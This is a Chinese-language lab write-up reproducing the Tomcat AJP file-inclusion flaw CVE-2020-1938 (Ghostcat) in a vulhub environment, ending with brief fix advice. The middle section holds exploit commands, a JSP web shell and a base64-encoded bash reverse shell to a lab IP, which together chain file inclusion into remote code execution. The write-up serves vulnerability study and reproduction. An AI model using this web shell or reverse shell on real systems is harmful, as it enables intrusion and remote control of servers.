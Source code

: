 # Aapache Tomcat AJP文件包含漏洞（CVE-2020-1938）

### 0x00 前言

Ghostcat（幽灵猫） 是由长亭科技安全研究员发现的存在于 Tomcat 中的安全漏洞，由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

影响版本：

```
Apache Tomcat 6
Apache Tomcat 7 < 7.0.100
Apache Tomcat 8 < 8.5.51
Apache Tomcat 9 < 9.0.31
```

### 0x01 环境搭建

这里使用vulhub搭建靶场环境`tomcat/CVE-2020-1938`

![image-20230410153328550](https://user-images.githubusercontent.com/122008722/230865459-0e9b51dc-c470-46b7-8319-1e36dcefebdf.png)

### 0x02 POC/EXP

cve_2020_1938_exp.py: `https://github.com/lcyunkong/pochub/blob/main/pochub/poc_list/web/Tomcat/cve_2020_1938_exp.py`

```python
# 利用：
# 在代码最后传入目标url即可，实例：
vuln_exploit_start("http://192.168.12.130:8080")
```

### 0x02 复现步骤

1、准备POC`https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/blob/master/CNVD-2020-10487-Tomcat-Ajp-lfi.py`

2、POC需要python2环境启动

```shell
python2 tomcat_AJP_Arbitrary_file_read_include.py 目标IP或HOST -p 目标端口 -f 文件路径
```

![image-20230410160311933](https://user-images.githubusercontent.com/122008722/230865483-2457df82-565d-4ed7-8db1-87f71d11ab0f.png)

3、由于靶场没有文件上传漏洞利用点，我们手动为靶场上传shell文件，内容如下：

```jsp
# 有回显版本
<%
java.io.InputStream in = Runtime.getRuntime().exec("需要执行的命令").getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b));
}
out.print("</pre>");
%>


# 无回显版本
<%
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}")
%>
```

```shell
docker cp shell.txt 29b32:/usr/local/tomcat/webapps/ROOT/
```

![image-20230410161431354](https://user-images.githubusercontent.com/122008722/230865520-3140c91b-cd10-4849-8efd-a6036f0656bc.png)

4、利用脚本进行反弹shell

修改poc，添加后缀`.jsp`

![image-20230410161748863](https://user-images.githubusercontent.com/122008722/230865535-9e7ae3ef-7e07-476a-b4f5-97dce15f372a.png)

```shell
python2 tomcat_AJP_Arbitrary_file_read_include.py 192.168.12.130 -p 8009 -f /WEB-INF/shell.txt
```

![image-20230410163038478](https://user-images.githubusercontent.com/122008722/230865592-b3857f4d-3bca-4d94-8218-73a0a5c126f1.png)

### 0x03 修复建议

1、关闭AJP 协议的端口

2、更新官方最新补丁
